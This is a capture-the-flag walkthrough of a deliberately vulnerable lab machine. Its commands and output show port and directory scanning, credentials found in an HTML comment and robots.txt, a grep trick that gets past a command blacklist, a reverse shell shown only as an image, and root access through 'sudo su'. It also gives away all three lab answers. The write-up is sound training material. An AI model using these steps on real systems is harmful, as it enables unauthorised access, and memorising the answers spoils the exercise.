 # Overview
![overview](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/f67c7a7c-6787-46f3-859d-8bb653caa7eb)


# Question-1
```
What is the first ingredient that Rick needs?
```
- Let start by scanning the IP Address `10.10.54.104` with Nmap
### Nmap Results

```bash
┌──(kali㉿kali)-[~]
└─$  nmap -A 10.10.54.104       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-27 08:46 EST
Nmap scan report for 10.10.54.104
Host is up (0.29s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:d1:f5:44:fc:f9:82:e6:94:df:f6:bf:4f:97:0b:62 (RSA)
|   256 29:7f:d0:f1:28:c5:cc:c8:0c:d5:0f:dd:fa:7e:83:2e (ECDSA)
|_  256 5b:00:f3:24:7a:0e:45:39:42:a8:fe:99:75:09:e5:ae (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.43 seconds
```


From the scan result i see a web server is running i.e`port 80` . Let check it out:
![webcheck](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/9762c829-963e-4d8a-8959-30a2a6dd5021)

There is nothing interesting on the web page so i decide to check the page source:
![webchecksrc](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/0c53bc52-019b-488d-a6de-cfef08c6774d)

and Boom i got a very important information(a username) from the HTML comment:

```html
  <!--
    Note to self, remember username!
    Username: R1ckRul3s
  -->
```

Then i decided to brute-force for directories using gobuster and i also added some extension switch to the command:
### Gobuster result

```bash
┌──(kali㉿kali)-[/usr/share/wordlists/dirbuster]
└─$ gobuster dir -u http://10.10.54.104 -w directory-list-2.3-medium.txt -x txt,html,css,cgi,php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.54.104
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              css,cgi,php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 292]
/.php                 (Status: 403) [Size: 291]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 313] [--> http://10.10.54.104/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
```

from the output, what i see that robot.txt is available so i use the browser to check if there is any disallow entries:
![robots](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/3aa58445-eff9-4fc0-a74a-94cde2ada7a2)

this is strange robots.txt doesn't contain a string like this, but i note my findings:

```
Wubbalubbadubdub
```

from the Gobuster output we also have a login page i.e `login.php` :
![login1](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/3efac5e6-053c-43e3-9c61-c76ca83ff4ac)

because i have no other info and the rest of the pages need a user to be logged in before viewing them i tried the username i got earlier and the string i found from`robots.txt` as the password because there is No harm in trying ): 
![login2](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/bfc50816-b25f-4c6e-9405-87545e4e43b9)

Boom i am logged in and i was brought to a command panel page(hopefully get RCE or a reverse shell?) i don't know ):
and also i don't have access to other pages, only the command page is available for us:
![denied](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/185d67be-2b10-43e3-90f4-80316d4c7701)

typing `ls` in the command panel prompt i got the list of files and directory in the current web-root file path `/var/www/html`
![ls](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/374a3a6c-10a3-4ecd-b60a-db490a79f916)

then i try to read the first file `Sup3rS3cretPickl3Ingred.txt` but it not working, i use different method of reading file but i am getting same error message, it seems like there is list of commands that can't be executed `blacklist`:
![noread](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/b7f66bbb-84e0-4ee8-93c2-b2c06f9f05bb)

i researched for possible ways to read a file, and found Grep `grep . example.txt` and `grep -R .` :
i used the first grep method to read the the `Sup3rS3cretPickl3Ingred.txt` and i was able to see the first answer(ingredient)
![ingredient1](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/32c61762-e7a7-4a9a-bd54-a7ddcad598ea)

```bash
command: grep . Sup3rS3cretPickl3Ingred.txt

output: mr. meeseek hair
```

i also used the second method of reading files with grep but it returned back the out of all the file `ALL`
![all](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/c6060714-c1d1-4658-9e24-df7cd76d107c)

it doesn't look nice to read but viewing the page source is much better
![clue](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/d0aafb95-e1ab-4b62-925b-9f58a9184827)

from the output of clue.txt `Look around the file system for the other ingredient.`
it will be hard to do that with the limited executable commands.
but scrolling down the source page i found the php code that is actively disallowing some command:
![blacklist](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/94d80100-2392-460e-8cc8-860be5ee3669)

and the list of commands isn't that big so i can work with this.
# Getting a reverse shell
going to [Online-Reverse shell generator](https://www.revshells.com/) i used different payloads but the one that worked is the python3 payload
![payload](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/6a2e85d8-2621-4cda-b399-0ca9a6d08de4)

![id](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/4f6ee430-3801-45a0-b154-070e6a47bc73)

# Mini-privilege Escalation
running sudo -l and noticed that www-data can run anything with sudo:
![su](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/f756886b-0780-44a0-8a74-994f447e434b)

then i switched to root with `sudo su` and found the 3rd ingredient in `/root`
![ingredient3](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/d9dba17e-a9d2-4344-91e7-d56c0f345292)

```bash
www-data@ip-10-10-54-104:/var/www/html$ sudo su
sudo su
root@ip-10-10-54-104:/var/www/html# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ip-10-10-54-104:/var/www/html# cd /root
cd /root
root@ip-10-10-54-104:~# ls
ls
3rd.txt  snap
root@ip-10-10-54-104:~# cat 3rd.txt
cat 3rd.txt
3rd ingredients: fleeb juice <--- 
root@ip-10-10-54-104:~# 
```

lastly i moved to the /`home/rick` directory and found the second ingredient:
![ingredient2](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/f52eabb1-5017-4942-b107-8dbf24f59931)

```bash
root@ip-10-10-54-104:~# cd /home
cd /home
root@ip-10-10-54-104:/home# ls
ls
rick  ubuntu
root@ip-10-10-54-104:/home# cd rick
cd rick
root@ip-10-10-54-104:/home/rick# ls
ls
second ingredients
root@ip-10-10-54-104:/home/rick# cat second\ ingredinets
cat second\ ingredinets
cat: 'second ingredinets': No such file or directory
root@ip-10-10-54-104:/home/rick# cat *
cat *
1 jerry tear <---
root@ip-10-10-54-104:/home/rick# 
```

===**And that all, isn't this fun?** === 


